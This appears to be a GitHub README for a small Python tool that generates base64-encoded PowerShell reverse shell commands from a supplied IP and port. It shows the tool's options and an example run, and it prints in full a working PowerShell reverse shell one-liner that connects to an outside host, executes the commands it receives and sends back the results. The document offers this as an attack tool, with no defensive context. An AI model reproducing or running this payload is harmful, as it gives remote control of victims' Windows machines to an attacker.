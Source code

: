 # psh_reverse_OneLine
Generate the command to make a powershell revershell (the one liner encoded in base64)

syntax:

	--help or -h	print manual
 
	--ip or -i	specify IP
 
	--port or -p	specify port
 
Example:

	python3 psh_reverse_OneLine.py -i 192.168.1.2 -p 4444
	![Screenshot_20231011_232617](https://github.com/toto22222/psh_reverse_OneLine/assets/104328855/3c439b84-6da4-4947-bd4e-095009622eee)



FYI, the powershell reverse shell one liner code as below:

	$client = New-Object System.Net.Sockets.TCPClient("<your IP>", <your port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

